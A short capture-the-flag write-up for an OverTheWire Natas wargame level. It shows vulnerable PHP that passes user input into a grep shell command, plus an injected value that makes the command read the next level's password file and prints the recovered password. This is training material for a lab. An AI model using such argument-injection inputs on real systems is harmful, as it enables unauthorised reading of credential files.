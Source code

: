 # Natas Level 9

## 🧪 Credentials

- **URL**: `http://natas10.natas.labs.overthewire.org`
- **Username**: `natas10`
- **Password**: `t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`

---

## 🖥️ Steps

1. Login to the website.
2. let's see the source. here we see it filter certain characters, but still there is plenty of ways to go around this. if we submit `grep -i . /etc/natas_webpass/natas11 #` this should work.
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
3. submit this `. /etc/natas_webpass/natas11 #` then it'll give us the pass
```
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
```
---
[← Level 09](./level09.md) | [Level 11 →](./level11.md)
